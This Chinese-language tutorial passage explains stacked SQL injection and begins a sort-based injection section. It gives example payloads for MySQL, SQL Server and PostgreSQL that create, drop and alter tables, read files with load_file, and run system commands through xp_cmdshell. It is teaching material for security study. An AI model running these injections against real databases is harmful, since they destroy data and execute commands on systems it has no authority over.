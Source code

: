 **练习地址：**[https://www.yuque.com/xmtxsec/blog/hbabnt](https://www.yuque.com/xmtxsec/blog/hbabnt)


### 2.2.12、堆叠注入知识点
	原理：在 SQL 中，分号（;）是用来表示一条 sql 语句的结束。试想一下我们在 ; 结束一个 sql 语句后继续构造下一条语句，会不会一起执行？因此这个想法也就造就了堆叠注入。而 union injection（联合注入）也是将两条语句合并在一起，两者之间有什么区别么？区别就在于 union 或者 union all 执行的语句类型是有限的，可以用来执行查询语句，而堆叠注入可以执行的是任意的语句。

	堆叠注入的局限性在于并不是每一个环境下都可以执行，可能受到 API 或者数据库引擎 不支持的限制，当然了权限不足也可以解释为什么攻击者无法修改数据或者调用一些程序。

	虽然我们前面提到了堆叠查询可以执行任意的 sql 语句，但是这种注入方式并不是十分完美的。在我们的 web 系统中，因为代码通常只返回一个查询结果，因此，堆叠注入第二个语句产生错误或者结果只能被忽略，我们在前端界面是无法看到返回结果的。 因此，在读取数据时，我们建议使用 union（联合）注入。同时在使用堆叠注入之前， 我们也是需要知道一些数据库相关信息的，例如表名，列名等信息。

**Mysql 数据库**
```
新建一个表 select * from users where id=1;create table test like users;
删除上面新建的 test 表 select * from users where id=1;drop table test;
查询数据 select * from users where id=1;select 1,2,3;
加载文件 select * from users where id=1;select load_file(‘c:/tmpupbbn.php’);
修改数据 select * from users where id=1;insert into users(id,username,password)values(‘100’,‘new’,‘new’);
```

**Sql server 数据库**
```
增加数据表 select * from test;create table sc3(ss CHAR(8));
删除数据表 select * from test;drop table sc3;
查询数据 select 1,2,3;select * from test;
修改数据 select * from test;update test set name=‘test’ where id=3;
sqlserver 中最为重要的存储过程的执行 select * from test where id=1;exec master…xp_cmdshell ‘ipconfig’
```

**Oracle 数据库**<br />oracle 不能使用堆叠注入

**Postgresql 数据库**
```
新建一个表 select * from user_test;create table user_data(id DATE);
删除上面新建的 user_data 表 select * from user_test;delete from user_data;
查询数据 select * from user_test;select 1,2,3;
修改数据 select * from user_test;update user_test set name=‘modify’ where name='张三 ';
```

**练习地址：**[https://www.yuque.com/xmtxsec/blog/udvcz1](https://www.yuque.com/xmtxsec/blog/udvcz1)


### 2.2.13、SORT注入知识点
SQL语句中，asc是指定列按升序排列，desc则 是指定列按降序排列。
```
select * from users order by 1 desc; 使用降序进行排列
select * from users order by1 asc;使用升序进行排列
```

```
right() 
select right(database(),1);
Left() 
select left(database(),1);
```
